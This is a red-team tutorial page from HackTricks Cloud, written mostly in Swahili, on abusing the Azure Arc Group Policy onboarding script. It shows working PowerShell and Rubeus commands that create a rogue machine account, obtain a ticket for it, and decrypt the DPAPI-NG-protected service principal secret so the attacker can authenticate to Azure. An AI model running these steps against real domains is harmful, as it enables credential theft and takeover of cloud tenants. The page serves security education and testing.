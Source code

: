 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc inaruhusu kuunganishwa kwa seva mpya za ndani (seva zilizounganishwa kwenye eneo) ndani ya Azure Arc kwa kutumia njia ya Group Policy Object. Ili kuwezesha hili, Microsoft inatoa zana za kutekeleza zinazohitajika kwa ajili ya kuanzisha mchakato wa kuingiza. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, skripti zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Wakati inatekelezwa, skripti ya DeployGPO.ps1 inatekeleza hatua zifuatazo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya eneo la ndani.
2. Inakopya skripti ya kuingiza ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyotengwa kwa ajili ya mchakato wa kuingiza, ambayo pia ina kifurushi cha installer cha Windows.

Wakati wa kuendesha skripti hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili vikuu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama vile eneo, FQDN ya seva inayohifadhi sehemu, na jina la sehemu. Maelezo zaidi kama vile kitambulisho cha mpangilio, kundi la rasilimali, na taarifa nyingine muhimu lazima pia zitolewe kwa skripti.

Siri iliyosimbwa inaundwa katika saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwa kutumia usimbaji wa DPAPI-NG. Siri iliyosimbwa inahifadhiwa katika faili inayoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana katika skripti ya DeployGPO.ps1, ambapo usimbaji unatekelezwa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama ingizo. Maelezo ya descriptor yanajumuisha SID za Kundi la Kompyuta za Eneo na Kundi la Wasimamizi wa Eneo, kuhakikisha kwamba ServicePrincipalSecret inaweza kusimbuliwa tu na Kundi la Wasimamizi wa Eneo na Kundi la Kompyuta za Eneo, kama ilivyotajwa katika maelezo ya skripti.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tuna masharti yafuatayo:

1. Tumefanikiwa kuingia kwenye mtandao wa ndani.
2. Tuna uwezo wa kuunda au kudhibiti akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoshikilia saraka ya AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia maarufu ni kutumia quota ya akaunti ya mashine. Njia nyingine inahusisha kuathiri akaunti ya mashine kupitia ACLs zenye udhaifu au mipangilio mingine mbalimbali isiyo sahihi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Mara tu akaunti ya mashine inapopatikana, inawezekana kuthibitisha kwa kutumia akaunti hii. Tunaweza ama kutumia amri ya runas.exe na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT ya akaunti yetu ya kompyuta iliyohifadhiwa kwenye kumbukumbu, tunaweza kutumia skripti ifuatayo kufungua siri ya huduma ya msingi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Kwa upande mwingine, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Katika hatua hii, tunaweza kukusanya taarifa zilizobaki zinazohitajika kuungana na Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye sehemu ile ile ya mtandao kama faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na mengineyo. Pamoja na taarifa hizi, tunaweza kutumia Azure CLI kuthibitisha kama service principal iliyovunjwa.

## Marejeo

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
